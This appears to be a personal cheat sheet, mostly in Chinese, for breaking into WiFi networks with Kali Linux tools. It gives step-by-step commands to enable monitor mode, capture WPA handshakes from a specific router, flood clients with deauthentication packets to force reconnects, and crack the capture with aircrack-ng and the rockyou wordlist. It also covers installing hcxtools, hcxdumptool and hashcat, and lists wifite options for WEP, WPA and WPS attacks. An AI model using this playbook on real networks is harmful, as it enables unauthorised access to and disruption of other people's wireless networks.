 #### airmon-ng
[Word Dictionary](https://www.wirelesshack.org/wpa-wpa2-word-list-dictionaries.html)
[Aircrack-ng套件——無線破解原理及工具詳解](https://www.796t.com/content/1543852627.html)
```
ifconfig   #check wifi interface
sudo -i
airmon-ng start wlan0  //wlan0為前面查到的網絡卡名稱
airodump-ng wlan0mon   # 等待有人登入
# airodump-ng -c <通道> --bssid <路由ID> -w <儲存抓包的目錄名稱> <網絡卡名稱>
airodump-ng -c 3 --bssid D4:EE:07:39:F5:DE -w /root/桌面 wlan0mon
# .洪水攻擊，強制打掉重連
# aireplay-ng -0 0 -a <bssid路由ID> -c <連線wifi的mac IP> <網絡卡名>
aireplay-ng -0 0 -a D4:EE:07:39:F5:DE -c D8:5D:E2:96:AB:EB wlan0mon
#.停止攻擊
#ctrl + c當終端右上方出現：WPA握手：D8：5D：22：96：AB字樣則說明抓包完成，停止攻擊
#抓包完成可關閉監聽模式：root @ kali：〜＃airmon- ng stop wlan0mon（網絡卡名）
airmon-ng stop wlan0mon(網絡卡名)
aircrack-ng -w /usr/share/wordlists/rockyou.txt /root/桌面-1.cap
#// - a2引數：<代表WPA握手包>，可新增至命令執行
#// - w引數：指定字典檔案路徑，rockyou.txt為kali自帶字典，使用前須先解壓：
#root @ kali：〜＃gzip -d /usr/share/wordlists/rockyou.txt.gz
```
```
Aircrack- ng是評估WiFi網路安全性的一整套工具。

- Aircrack-ng無線密碼破解
- Aireplay-ng流量生成和客戶端認證
- Airodump-ng資料包捕獲
- Airbase-ng虛假接入點配置

它側重於無線網路安全的不同領域：

監控：資料包捕獲和資料匯出到文字檔案，以供工具第三方進一步處理
攻擊：通過資料包注入重播攻擊，解除身份驗證，虛假接入點等
測試：檢查無線網路卡和驅動程式功能（捕獲和注入）
破解：WEP和WPA PSK（WPA 1和2）
```
#### [Kali下用wifite破解WIFI](https://www.twblogs.net/a/5c543824bd9eee06ef364074)
#### 下載 hcxdumptool 
```
apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
git clone https://github.com/ZerBea/hcxtools
cd hcxtools
make
make install
```
#### 下載 hcxdumptool v4.2.0或更高版本
```
git clone https://github.com/ZerBea/hcxdumptool
cd hcxdumptool
make
make install
```
#### 下載 hashcat v4.2.0或更高版本
```
wget https://hashcat.net/files/hashcat-4.2.1.7z
7z x hashcat-4.2.1.7z
```
#### wifite 指令
#### [Wifite+hashcat破解WPA2 Wi-Fi密码](https://www.shenjc.net/2020/07/19/200711_kali_linux_wifi/)
```
可選參數：

-h，--help  顯示此幫助信息並退出

 

命令：

--check CHECK  檢查檢查capfile [文件]進行握手。

--cracked  顯示以前破解的接入點。

--recrack  將已破解的網絡包含在目標中。

 

全局的：

--all  攻擊所有目標。

-i INTERFACE  用於捕獲的無線接口。

--mac  匿名MAC地址。

--mon-iface MONITOR_INTERFACE  界面已經處於監視模式。

-c CHANNEL  通道掃描目標。

-e ESSID  通過ssid（name）指定一個特定的接入點。

-b BSSID  通過bssid（mac）指定特定的接入點。

--showb  掃描後顯示目標BSSID。

--nodeauth  掃描時不要取消對客戶端的驗證

- power POWER  攻擊任何信號強度> [pow]的目標。

--tx TX  設置適配器TX功率級別。

--quiet  不要在掃描期間打印AP列表。

 

WPA：

--wpa  只針對WPA網絡（使用--wps --wep）。

--wpat WPAT  等待WPA攻擊完成的時間（秒）。

--wpadt WPADT  發送deauth數據包（秒）之間的等待時間。

--strip  使用tshark或pyrit去握手。

--crack  使用[dic] wordlist文件破解WPA握手。

--dict DIC  WPA時使用的DIC Specificy字典。

--aircrack  使用aircrack驗證握手。

--pyrit  使用pyrit驗證握手。

--tshark  使用tshark驗證握手。

--cowpatty  使用cowpatty驗證握手。

 

WEP：

--wep  只針對WEP網絡。

--pps PPS  設置每秒要注入的數據包數量。

--wept WEPT 等待每次攻擊，0意味着無窮無盡。

- chopchop  使用chopchop攻擊。

--arpreplay  使用arpreplay攻擊。

--fragment  使用碎片攻擊。

- caffelatte  使用caffe-latte攻擊。

--p0841  使用P0842攻擊。

-- hirte  使用hirte攻擊。

--nofakeauth  假身份驗證失敗後停止攻擊。

--wepca WEPCA  當IVs的數量超過[n]時開始破解。

--wepsave WEPSAVE  將.cap文件的副本保存到此目錄。

 

WPS：

--wps  只針對WPS網絡。

--pixie  只能使用WPS PixieDust攻擊

--wpst WPST  最大在放棄之前等待新的重試（0：從不）。

--wpsratio  成功PIN嘗試/總重試次數的最小比率。

--wpsretry WPSRETRY  放棄之前最多同一個PIN的重試次數。
```
#### Stop wifi crack tools
* sudo airmon-ng stop wlanmon
#### Restart wlan0 connetc to WiFi
```
sudo wpa_supplicant -B -c /etc/wpa_supplicant/wpa_supplicant.conf -i wlan0
sudo dhclient wlan0
sudo ifconfig
```
